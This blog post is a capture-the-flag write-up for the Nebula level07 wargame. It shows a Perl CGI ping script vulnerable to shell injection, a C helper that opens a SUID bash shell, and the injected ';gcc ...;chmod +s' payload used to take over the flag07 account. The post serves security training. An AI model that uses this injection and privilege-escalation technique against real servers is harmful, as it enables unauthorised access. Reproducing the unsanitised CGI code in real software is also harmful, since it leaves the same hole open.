 ```yaml
---
title: "Exploit Exercises - Nebula 07"
date: "2011-12-08T06:10:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-07.html"
 - "/2011/12/08/exploit-exercises-nebula-07"
---
```


This [next challenge](http://exploit-exercises.com/nebula/level07) is a little bit more tricky than some of the previous ones.  There's a lot more code involved, but it's not too bad.

<!-- more -->

In the flag07 home directory, you'll find the configuration for a simple http server, thttpd.conf.  Inside, you'll find that it's running an HTTP server on port 7007 as the flag07 user.  This is where the perl script that is provided comes in.

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
 $host = $_[0];

 print("<html><head><title>Ping results</title></head><body><pre>");

 @output = `ping -c 3 $host 2>&1`;
 foreach $line (@output) { print "$line"; } 

 print("</pre></body></html>");  }  # check if Host set. if not, display normal page, etc  

 ping(param("Host"));
```

You can now browse to this script by going to http://<nolink>10.1.1.16:7007/index.cgi (assuming your Nebula VM is running on 10.1.1.16).  Unfortunately, since no parameters are being passed, it presents us with the usage of ping. 

```
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
```

The perl script takes a parameter named "Host", and pipes it into the ping command.  Because of how poorly the perl script was written, we can inject more commands in there.  To make it easy, I made a quick HTML document to assist, so I didn't have to do the encoding of spaces and symbols. 

```
<html> <body>
  <form action="http://10.1.1.6:7007/index.cgi" method="get">
   <input name="Host" id="Host" type="text" />
   <input type="submit" />
  </form>
 </body>
</html>
```

Now I can open that html file in my browser of choice, and when I submit, it'll automatically do all the encoding for me, so I can just worry about the injection. 

In addition to the html page, I also modified my level03.c from a prior post, to make it more generic.  I saved this file as /tmp/bash_id.c: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

This modified source file now takes a parameter of the user id you want to impersonate.  I want to impersonate the flag07 user, so I checked out the /etc/passwd file. 

```
level07@nebula:/tmp$ cat /etc/passwd | grep flag07
flag07:x:992:992::/home/flag07:/bin/sh
```

Now I know that flag07 is also user 992. 

I opened the html file that I made, and in the textbox typed:  

```
;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07
```

When I clicked the submit button, it sent the final command of:  

```
ping -c 3 ;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07 2>&1
```

It makes the ping program have incorrect usage, thus ending quickly.  It then compiles my newly written bash_id.c script, and places the executable in the /home/flag07 folder, and marks it executable and SUID.  From here, it was just as simple as executing that program with the 992 parameter, and running "getflag".

```
level07@nebula:/home/flag07$ ./level07 992
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
